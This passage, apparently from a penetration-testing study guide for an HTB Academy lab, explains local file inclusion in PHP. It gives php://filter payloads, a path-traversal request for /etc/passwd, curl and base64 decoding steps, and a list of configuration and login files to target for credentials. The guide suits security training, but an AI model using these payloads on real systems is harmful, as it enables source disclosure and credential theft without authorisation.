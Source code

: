 ### 2. Source Code Disclosure Techniques

**Reading PHP Source Code:**
```bash
# Instead of executing PHP, read its source
http://target.com/index.php?file=php://filter/convert.base64-encode/resource=index.php

# Expected output: Base64 encoded PHP source code
```

**Decoding Process:**
```bash
# Save base64 output
curl -s "http://target.com/lfi.php?file=php://filter/convert.base64-encode/resource=config.php" > encoded.txt

# Decode base64
cat encoded.txt | base64 -d > config.php

# View decoded source
cat config.php
```

### 3. HTB Academy PHP Filter Lab

**Target Configuration:**
- **Lab URL:** Various HTB Academy instances
- **Objective:** Read PHP source code using filters

**Step-by-Step Solution:**

```bash
# Step 1: Identify vulnerable parameter
http://target.com/index.php?language=en

# Step 2: Test basic LFI
http://target.com/index.php?language=../../../../etc/passwd

# Step 3: Use PHP filter to read source code
http://target.com/index.php?language=php://filter/convert.base64-encode/resource=index

# Step 4: Decode base64 output
echo 'BASE64_OUTPUT_HERE' | base64 -d

# Step 5: Analyze source code for credentials/secrets
grep -i "password\|secret\|key\|token" decoded_source.php
```

**Common Files to Target:**
```bash
# Configuration files
php://filter/convert.base64-encode/resource=config.php
php://filter/convert.base64-encode/resource=database.php
php://filter/convert.base64-encode/resource=wp-config.php

# Application files
php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=admin.php
php://filter/convert.base64-encode/resource=login.php

# Include files
php://filter/convert.base64-encode/resource=functions.php
php://filter/convert.base64-encode/resource=includes/config.inc.php
```
